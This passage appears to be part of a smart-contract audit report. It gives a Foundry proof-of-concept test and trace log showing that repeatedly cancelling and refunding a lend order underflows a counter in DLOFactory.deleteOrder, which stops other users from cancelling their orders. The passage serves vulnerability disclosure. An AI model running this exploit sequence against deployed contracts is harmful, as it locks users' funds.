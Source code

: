 ```solidity
    // Third cancel
    DLOImplementation(lendOrderB).cancelOffer();

    // Third reactivation
    AEROContract.approve(lendOrderB, 1e18);
    DLOImplementation(lendOrderB).addFunds(1e18);

    // Fourth cancel
    DLOImplementation(lendOrderB).cancelOffer();
    vm.stopPrank();

    // Verify user A cannot cancel their order
    vm.startPrank(A);
    uint balanceBeforeA = IERC20(AERO).balanceOf(A);
    vm.expectRevert();  // Expect the transaction to revert
    DLOImplementation(lendOrderA).cancelOffer();
    uint balanceAfterA = IERC20(AERO).balanceOf(A);
    vm.stopPrank();
    assertEq(balanceBeforeA, balanceAfterA, "A should not be able to cancel");

    // Verify user C cannot cancel their order
    vm.startPrank(C);
    uint balanceBeforeC = IERC20(AERO).balanceOf(C);
    vm.expectRevert();
    DLOImplementation(lendOrderC).cancelOffer();
    uint balanceAfterC = IERC20(AERO).balanceOf(C);
    vm.stopPrank();
    assertEq(balanceBeforeC, balanceAfterC, "C should not be able to cancel");

    // Verify user D cannot cancel their order
    vm.startPrank(D);
    uint balanceBeforeD = IERC20(AERO).balanceOf(D);
    vm.expectRevert();
    DLOImplementation(lendOrderD).cancelOffer();
    uint balanceAfterD = IERC20(AERO).balanceOf(D);
    vm.stopPrank();
    assertEq(balanceBeforeD, balanceAfterD, "D should not be able to cancel");
}
```
Test log:
```solidity
    │   │   ├─ [1015] DLOFactory::deleteOrder(DebitaProxyContract: [0x339A8D2d209303c274b4aC0131f471C6553cfe47])
    │   │   │   └─ ← [Revert] panic: arithmetic underflow or overflow (0x11)
    │   │   └─ ← [Revert] panic: arithmetic underflow or overflow (0x11)
    │   └─ ← [Revert] panic: arithmetic underflow or overflow (0x11)
    ├─ [563] ERC20Mock::balanceOf(0x0000000000000000000000000000000000000013) [staticcall]
    │   └─ ← [Return] 995000000000000000000 [9.95e20]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(995000000000000000000 [9.95e20], 995000000000000000000 [9.95e20], "D should not be able to cancel") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Return] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 14.87ms (7.08ms CPU time)

Ran 1 test suite in 1.88s (14.87ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

_No response_